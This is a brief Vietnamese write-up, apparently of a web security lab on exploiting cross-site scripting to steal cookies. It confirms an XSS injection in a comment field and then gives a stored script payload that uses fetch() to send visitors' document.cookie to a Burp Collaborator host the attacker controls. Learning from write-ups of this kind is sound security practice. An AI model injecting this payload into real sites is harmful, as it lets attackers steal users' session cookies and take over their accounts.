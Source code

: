 ### **Exploiting cross-site scripting to steal cookies**

Thử gửi bình luận `<script>alert(1)</script>`, thấy `alert(1)` đã được thực thi → website không có phương thức gì để chống XSS

![Untitled](writeup_media/Untitled%2037.png)

Gửi payload để victim khi đọc bình luận sẽ gửi một GET request chứa param là cookie đến endpoint của mình

```html
<script>
fetch("https://c9m3232osm2ga4hckx1flmhiu903os.burpcollaborator.net/?"+document.cookie)
</script>
```

![Untitled](writeup_media/Untitled%2038.png)